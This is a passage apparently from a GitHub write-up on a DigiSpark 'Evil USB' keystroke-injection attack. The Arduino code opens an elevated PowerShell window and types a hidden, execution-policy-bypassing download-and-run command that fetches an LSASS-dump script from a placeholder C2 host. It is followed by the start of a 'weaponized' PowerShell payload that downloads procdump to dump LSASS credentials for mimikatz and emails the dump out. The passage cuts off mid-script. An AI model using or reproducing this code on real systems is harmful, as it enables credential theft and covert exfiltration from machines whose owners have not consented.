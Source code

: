 ```cpp
#include "DigiKeyboard.h"

void setup() {
  // don't need to set anything up to use DigiKeyboard
}

void loop() {
  // this is generally not necessary but with some older systems it seems to
  // prevent missing the first character after a delay:
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(2000);
  
  // start elevated prompt
  DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("powershell");
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER, MOD_CONTROL_LEFT | MOD_SHIFT_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  // cmd with administrative privilege done

  DigiKeyboard.delay(5000);

  //Download powercat and setup reversed shell 
  DigiKeyboard.print("powershell -ExecutionPolicy Bypass -NoP -sta -NonI -W Hidden IEX (New-Object System.Net.Webclient).DownloadString('http(s)://c2/webserver/LSASS-Dump.ps1')");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
   DigiKeyboard.delay(500);
  // reversed shell done

  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW); 
  DigiKeyboard.delay(5000);
  // second led on you can remove the the Evil USB Stick
}
```

## Weaponized Example - Send LSASS Dump

Below you find a script for retrieving a LSASS dump using the sysinternals procdump tool and the arbitrary payload downloader from above. The looted dump file is automatically send to an email address which can be configured in the variables.

### The Payload

```powershell
# started this script for a Evil USB DigiSpark project.
# script for retrieving dump from lsass for later use with mimikatz.

# setup variables
$GmailAccount = ''
$GmailPassWord = ''
$FromAddress = ''
$ToAddress = ''
$Subject = 'Send LSASS Dump'
$Attachment = 'C:\Windows\Temp\dump.zip'

# Sysinternals Live procdump and outfile
$x86 = 'https://live.sysinternals.com/tools/procdump.exe'
$86 = 'procd32.exe'
```